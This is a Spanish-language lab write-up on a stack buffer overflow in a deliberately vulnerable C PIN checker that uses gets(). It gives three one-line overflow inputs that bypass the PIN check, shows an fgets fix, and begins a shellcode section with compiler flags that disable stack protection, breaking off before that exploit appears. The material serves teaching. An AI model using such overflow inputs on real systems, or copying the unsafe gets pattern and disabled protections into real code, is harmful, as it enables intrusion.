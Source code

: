 La función `gets` nos permite introducir en el `pin leído` el valor que deseemos. El problema es que no se preocupa de la cantidad de caracteres que insertamos.

Ambos PIN tienen un espacio reservado de 5 caracteres como máximo (4 para el PIN y uno para el fin de string).

Si introducimos una entrada mayor a 5 caracteres, los valores inferiores del **Stack** se sobreescriben.

De esta forma seremos capaces de designar el PIN secreto deseado o incluso de modificar la dirección de retorno.

### 💣 Explotación

Podemos explotar este programa de muchas maneras. La más sencilla será generar un texto con dos strings iguales para, de esta manera, sobreescribir ambos PIN.

Usaremos cualquier programa que nos permita mostrar caracteres sin representación ASCII:

```sh
echo -e "Esei\x00Esei" | ./desbordamiento-vulnerable

python -c "print('HACK\0HACK')" | ./desbordamiento-vulnerable

perl -e 'print "0000\x000000"' | ./desbordamiento-vulnerable
```

Cualquiera de estos comandos nos dará el siguiente resultado:

```sh
Introducir PIN: Acceso concedido, pin correcto
```

### 🔒 Corrección

La función `gets` habría de ser reemplazada por otra más segura. Por ejemplo:

```c
fgets(pin_leido, 4, stdin);
```

En este caso, el PIN introducido siempre será de 3 dígitos (dado que el cuarto pertenece al fin de cadena `\0`). De esta forma prevenimos este tipo de **Buffer Overflow**.

### 💎 ¡EXTRA! Más cosas divertidas

Aunque esto no entra dentro de la práctica, me he visto en la obligación de hacerlo. Podemos ejecutar comandos arbitrarios a partir del programa vulnerable. Para ello, vamos a recompilarlo de la siguiente manera:

```sh
gcc -fno-stack-protector -z execstack -o desbordamiento-vulnerable desbordamiento.c
```

Con el flag `-z execstack` nos aseguramos de que cualquier código en ensamblador que metamos dentro del **Stack** puede llegar a ejecutarse si el *Instruction Pointer* apunta directamente a dicha dirección.

El **exploit** lo vamos a realizar de la siguiente manera:
